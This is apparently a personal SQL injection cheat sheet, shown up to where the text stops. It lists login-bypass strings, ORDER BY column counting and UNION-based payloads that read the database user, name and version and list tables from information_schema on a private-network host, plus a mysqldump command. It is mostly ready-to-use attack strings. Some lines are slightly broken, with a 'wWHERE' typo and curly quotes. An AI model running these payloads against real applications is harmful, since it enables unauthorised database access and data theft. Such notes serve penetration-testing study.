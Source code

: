 ```
https://portswigger.net/web-security/sql-injection/cheat-sheet

Simple SQL Injection Log In bypass
Try a lot of them out:
```
' or '1'='1'-- -
' or 1=1 -- -
' or 1=1#
admin' -- -
admin' #
```

Check number of column:
When SQLi is possible, if n+1 does not return anything, n is the number of column in the table
```
php?xxx=1 order by n
```

Dump MySQL DB:
```
mysqldump -u username -p DBname > dump.sql
```

Check for maths operation:
```
php?xxx=1 + 1
```

### Union/Error based SQL attack:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-union-based
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Error%20Based%20SQLi

Sample payloads:
```
php?xxx=9999999 union select 1,2,3,4,5,n
```
Or
```
php?xxx=9999999' union select null,null,null,null,null,n
```

With n is the correct column amount, the page should populate results again, database() and user() can be replaced to reveal information about the database. Null is used because the value type returned from the injected SELECT query must be compatible between the original and the injected queries (NULL is convertible to every commonly used data type).

Use group_concat() to display output of user(), database() and @@version in 1 line separate by “::”
```
php?xxx=9999999 union select 1,group_concat(user(),”::”,database(),”::”,@@version),3,4,5
```

Show database version with UNION:
```
http://192.168.160.10/debug.php?id=1 union select all 1,2,@@version
```

Show tables in database with UNION:
```
http://192.168.160.10/debug.php?id=1 union select all 1,2,table_name FROM information_schema.tables wWHERE table_schema='$DB_NAME'
```

To extract different table names from a database:
```
http://192.168.160.10/debug.php?id=1 union select all 1,2,table_name FROM information_schema.tables WHERE table_schema='$DB_NAME' and table_name!='$TABLE1_NAME'